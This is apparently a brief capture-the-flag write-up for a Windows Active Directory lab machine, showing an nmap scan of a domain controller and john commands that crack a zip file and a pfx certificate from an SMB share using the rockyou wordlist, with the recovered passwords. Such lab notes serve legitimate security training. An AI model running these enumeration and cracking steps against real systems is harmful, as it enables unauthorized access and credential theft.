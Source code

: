 #Windows #active-directory 

# nmap 

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-12 10:27 CDT
Nmap scan report for 10.129.5.22
Host is up (0.21s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-10-12 23:27:54Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-10-12T23:28:13
|_  start_date: N/A
|_clock-skew: 7h59m57s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

```

# Found a zip file on the smb share, downloaded it but it's password protected, decrypted it using john 

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash 

supremelegacy

thuglegacy

```

# pfx file also has password, cracked it again using john

```shell
pfx2john file.pfx > pfx.hash
john --wordlist=/usr/share/wordlist/rockyou.txt pfx.hash

thuglegacy
```